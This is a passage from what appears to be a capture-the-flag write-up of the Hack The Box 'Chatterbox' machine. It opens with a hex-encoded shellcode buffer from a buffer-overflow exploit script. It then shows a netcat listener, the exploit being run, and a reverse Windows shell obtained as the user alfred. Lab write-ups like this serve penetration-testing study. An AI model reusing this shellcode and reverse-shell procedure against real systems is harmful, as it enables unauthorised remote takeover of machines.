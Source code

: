 buf += "\x32\x79\x70\x4d\x30\x52\x48\x61\x67\x32\x53\x6f\x42"
buf += "\x71\x4f\x31\x44\x73\x38\x4e\x6c\x44\x37\x4e\x46\x4d"
buf += "\x37\x6b\x4f\x79\x45\x34\x78\x56\x30\x6d\x31\x59\x70"
buf += "\x79\x70\x6b\x79\x76\x64\x30\x54\x72\x30\x4f\x78\x6c"
buf += "\x69\x63\x50\x52\x4b\x49\x70\x59\x6f\x5a\x35\x30\x50"
buf += "\x6e\x70\x52\x30\x4e\x70\x6d\x70\x4e\x70\x71\x30\x50"
buf += "\x50\x71\x58\x68\x6a\x7a\x6f\x69\x4f\x37\x70\x4b\x4f"
buf += "\x56\x75\x32\x77\x42\x4a\x4a\x65\x50\x68\x5a\x6a\x69"
buf += "\x7a\x6a\x6e\x5a\x4a\x71\x58\x49\x72\x69\x70\x6e\x50"
buf += "\x4c\x77\x43\x59\x38\x66\x30\x6a\x4a\x70\x70\x56\x62"
buf += "\x37\x33\x38\x35\x49\x56\x45\x31\x64\x73\x31\x79\x6f"
buf += "\x5a\x35\x33\x55\x49\x30\x74\x34\x5a\x6c\x49\x6f\x50"
buf += "\x4e\x59\x78\x71\x65\x68\x6c\x50\x68\x38\x70\x36\x55"
buf += "\x34\x62\x72\x36\x69\x6f\x6a\x35\x73\x38\x43\x33\x42"
buf += "\x4d\x6f\x74\x69\x70\x44\x49\x67\x73\x72\x37\x31\x47"
buf += "\x61\x47\x50\x31\x58\x76\x50\x6a\x4a\x72\x71\x49\x30"
buf += "\x56\x59\x52\x49\x6d\x70\x66\x48\x47\x51\x34\x6f\x34"
buf += "\x4f\x4c\x79\x71\x39\x71\x42\x6d\x6f\x54\x6e\x44\x6c"
buf += "\x50\x45\x76\x69\x70\x6e\x64\x31\x44\x42\x30\x4e\x76"
buf += "\x30\x56\x50\x56\x50\x46\x70\x56\x30\x4e\x52\x36\x72"
buf += "\x36\x6f\x63\x51\x46\x62\x48\x32\x59\x76\x6c\x6f\x4f"
buf += "\x34\x46\x69\x6f\x76\x75\x75\x39\x57\x70\x6e\x6e\x50"
buf += "\x56\x6f\x56\x6b\x4f\x30\x30\x52\x48\x6d\x38\x44\x47"
buf += "\x4b\x6d\x71\x50\x59\x6f\x77\x65\x75\x6b\x6c\x30\x78"
buf += "\x35\x44\x62\x71\x46\x71\x58\x46\x46\x66\x35\x65\x6d"
buf += "\x45\x4d\x49\x6f\x48\x55\x4d\x6c\x6b\x56\x31\x6c\x6c"
buf += "\x4a\x71\x70\x49\x6b\x79\x50\x50\x75\x79\x75\x37\x4b"
buf += "\x51\x37\x6c\x53\x61\x62\x30\x6f\x52\x4a\x6b\x50\x52"
buf += "\x33\x4b\x4f\x68\x55\x41\x41"</pre>

I started a netcat listener on 1234 but nothing was connecting. For a long time I couldn&#8217;t figure out why. Then I scrolled back up to the command I used to create the code and realized i added an extra digit on the port. D&#8217;oh!  
So I restarted the listener using the correct port and got a connection back when I ran the code.

<pre>[<span style="color: #8ae234;"><b>root</b></span>:<span style="color: #cc0000;">~/Desktop/chatterbox</span>]# python 36025.py                                                                                                                                                      (<span style="color: #fce94f;"><b>master</b></span><span style="color: #ef2929;"><b>✱</b></span>) 
----&gt;{P00F}!
</pre>

<pre>[<span style="color: #8ae234;"><b>root</b></span>:<span style="color: #cc0000;">~/Desktop/chatterbox</span>]# nc -lvnp 12343                                                                                                                                                       (<span style="color: #fce94f;"><b>master</b></span><span style="color: #ef2929;"><b>✱</b></span>) 
listening on [any] 12343 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.74] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32&gt;whoami
whoami
chatterbox\alfred
